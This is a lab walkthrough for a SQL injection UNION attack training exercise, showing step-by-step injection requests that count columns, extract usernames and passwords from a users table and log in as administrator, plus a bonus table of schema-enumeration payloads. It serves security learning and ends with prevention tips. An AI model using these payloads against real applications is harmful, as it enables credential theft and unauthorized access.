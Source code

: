 
# 💥 Lab Walkthrough: SQL Injection UNION Attack — Retrieving Data from Other Tables

> **Lab Title:** SQL injection UNION attack, retrieving data from other tables

> **Difficulty:** Practitioner

> **Status:** ✅ Solved

> **Goal:** Use a SQL injection UNION attack to extract usernames and passwords from the `users` table and log in as the `administrator`.


## 🎯 Objective

You've already determined:
- The query returns **2 columns**
- Both columns accept **string data**

Now it's time to exploit this vulnerability to:
1. Retrieve all **usernames and passwords** from the `users` table
2. Log in as the **administrator** using the stolen credentials

This lab simulates how attackers can extract **sensitive internal data** through vulnerable input fields.

## 🔍 Background

The vulnerable application uses a product category filter like:

```
GET /category?category=Electronics
```

Behind the scenes, it runs a query similar to:

```sql
SELECT name, description FROM products WHERE category = 'Electronics'
```

Since the results are returned in the application’s response, we can use a `UNION SELECT` attack to inject additional data — such as usernames and passwords.

## 🛠 Step-by-Step Guide

### 🔹 Step 1: Confirm SQLi Vulnerability

Start by testing if the parameter is injectable:

```
GET /category?category=Electronics'
```

➡️ If you get an error or unusual behavior → Vulnerable ✅

Try bypassing the rest of the query:

```
GET /category?category=Electronics'--
```

➡️ If the page loads normally → Confirmed injection point ✅

### 🔹 Step 2: Determine Number of Columns

Use the `UNION SELECT NULL` method:

```
GET /category?category='+UNION+SELECT+NULL,NULL--
```

✅ If successful → Query returns **2 columns**

### 🔹 Step 3: Test Which Columns Accept Strings

Inject test strings into each column:

```
GET /category?category='+UNION+SELECT+'abc',NULL--
GET /category?category='+UNION+SELECT+NULL,'def'--
GET /category?category='+UNION+SELECT+'abc','def'--
```

👀 Look for where `'abc'` or `'def'` appears on the page — this tells you which column accepts string values.

➡️ In this case, **both columns accept strings** — perfect for extracting usernames and passwords!

### 🔹 Step 4: Inject Payload to Extract User Data

Now that you know the structure, inject this payload:

```
GET /category?category='+UNION+SELECT+username,password+FROM+users--
```

💡 This appends the contents of the `users` table to the original query result.

## 🧾 Example Response

After injecting, you see something like this in the app:

| Username | Password |
|-------------|---------------------|
| administrator | 5talssvnxxxxxxxxx |
| carlos | 9kmanmkhc2xxxxxxxxxx |
| wiener | 4upxqmikqxxxxxxxxxx |

🎉 You’ve successfully extracted all usernames and passwords!

## 🔐 Step 5: Log in as Administrator

Go to the login page and enter:

- **Username:** `administrator`
- **Password:** `5talssvxxxxxxxxx`

✅ Successfully logged in as admin!

## 📊 Summary Table

| Step | Goal | Technique |
|------|------|-----------|
| 1 | Confirm vulnerability | `'` and `'--` payloads |
| 2 | Find number of columns | `UNION SELECT NULL,NULL--` |
| 3 | Check usable columns | Inject `'test'` into each |
| 4 | Extract user data | `UNION SELECT username,password FROM users--` |
| 5 | Log in as admin | Use retrieved credentials |

## 🧠 Why This Works

Modern databases allow attackers to:
- Enumerate database structure
- Extract sensitive data via `UNION SELECT`
- Bypass authentication systems

By chaining together earlier steps (column count + string-compatible columns), you were able to pull off a full **data exfiltration attack**.

## 🛡️ Prevention Tips

To stop this kind of attack:

- ✅ Always use **parameterized queries** or ORM libraries
- ✅ Validate and sanitize all inputs
- ✅ Never expose raw SQL errors to users
- ✅ Limit database permissions — avoid using admin accounts in web apps
- ✅ Use a Web Application Firewall (WAF) to detect common SQLi patterns

## 📚 Bonus: Advanced SQLi Techniques

Once you're comfortable with basic UNION attacks, try these next:

| Goal | Payload |
|------|---------|
| Get DB version | `' UNION SELECT NULL, version()--` |
| List all tables | `' UNION SELECT NULL, table_name FROM information_schema.tables--` |
| Get column names | `' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'--` |
